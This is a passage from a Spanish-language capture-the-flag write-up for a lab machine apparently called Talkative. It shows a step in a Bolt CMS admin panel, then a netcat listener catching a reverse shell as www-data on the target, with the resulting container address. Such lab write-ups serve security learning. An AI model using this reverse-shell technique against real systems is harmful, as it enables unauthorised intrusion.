 ![Write-up Image](images/Screenshot_15.png)

**Ahora nos dirigimos a Maintenance -> Clear the Cache**

Y si nos ponemos en escucha con `netcat` y recargamos la página inicial...
```shell
$ sudo rlwrap -cEr nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.91] from (UNKNOWN) [10.129.222.158] 44350
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
www-data@6d4489211cb5:/var/www/talkative.htb/bolt/public$ hostname -I
hostname -I
172.17.0.15 
www-data@6d4489211cb5:/var/www/talkative.htb/bolt/public$
```
